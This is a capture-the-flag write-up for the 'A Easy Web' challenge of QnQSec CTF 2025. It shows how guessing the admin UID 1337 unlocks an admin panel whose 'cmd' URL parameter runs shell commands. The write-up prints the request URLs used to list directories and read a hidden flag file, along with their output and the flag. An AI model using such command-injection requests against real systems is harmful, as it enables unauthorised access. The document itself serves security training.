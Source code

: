 # A Easy Web — QnQSec CTF 2025

> **Room / Challenge:** A Easy Web (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** QnQSec CTF 2025
- **Challenge:** A Easy Web (web)
- **Target / URL:** `http://161.97.155.116:5000/`
- **Points:** `50`
- **Date:** `20-10-2025`

---

## Goal

We have to get the flag by guessing the UID to gain access as admin.

## My Solution

This is an easy challenge however we need to do some guessing and hope for luck.

The description of the challenge is:

```
This is the web I mad for testing but I don’t know if there anything strange can you help me figure out?
```

We need to find something strange in the website to leverage it and gain access as admin. Let's visit the page:

![Guide image](./screenshots/1.png)

There is only one route that we can try to get admin access: `/profile?uid=1`. We have to guess the UID, I have done loads of guesses and finally I found the correct UID: `?uid=1337`

![Guide image](./screenshots/2.png)

Click `Go to admin panel`:

![Guide image](./screenshots/3.png)

Now it's easy. Visit `http://161.97.155.116:5000/admin?cmd=ls%20-la&uid=1337`:

```bash
total 48
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:13 .
drwxr-xr-x 1 root   root    4096 Oct 17 01:40 ..
drwxr-xr-x 2 nobody nogroup 4096 Oct 17 01:40 .hidden
-rw-r--r-- 1 nobody nogroup  371 Oct 16 23:46 Dockerfile
-rw-r--r-- 1 nobody nogroup   27 Oct 19 06:05 a
-rw-r--r-- 1 nobody nogroup 1074 Oct 16 23:46 app.py
-rw-r--r-- 1 nobody nogroup   29 Oct 19 06:13 b
-rw-r--r-- 1 nobody nogroup  109 Oct 17 01:40 docker-compose.yml
-rw-r--r-- 1 nobody nogroup    6 Oct 16 23:46 requirements.txt
drwxr-xr-x 1 nobody nogroup 4096 Oct 16 23:46 static
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:20 templates
```

Visit `http://161.97.155.116:5000/admin?cmd=ls%20-la%20.hidden&uid=1337`:

```bash
total 16
drwxr-xr-x 2 nobody nogroup 4096 Oct 17 01:40 .
drwxr-xr-x 1 nobody nogroup 4096 Oct 19 06:13 ..
-rw-r--r-- 1 nobody nogroup   51 Oct 16 23:46 flag-pNCQR0rSGNwlYXYisehjTwzRKgohvf8z.txt
```

Get the flag `http://161.97.155.116:5000/admin?cmd=cat%20./.hidden/flag-pNCQR0rSGNwlYXYisehjTwzRKgohvf8z.txt&uid=1337`:

```
QnQSec{I_f0und_th1s_1day_wh3n_I_am_using_sch00l_0j}
```
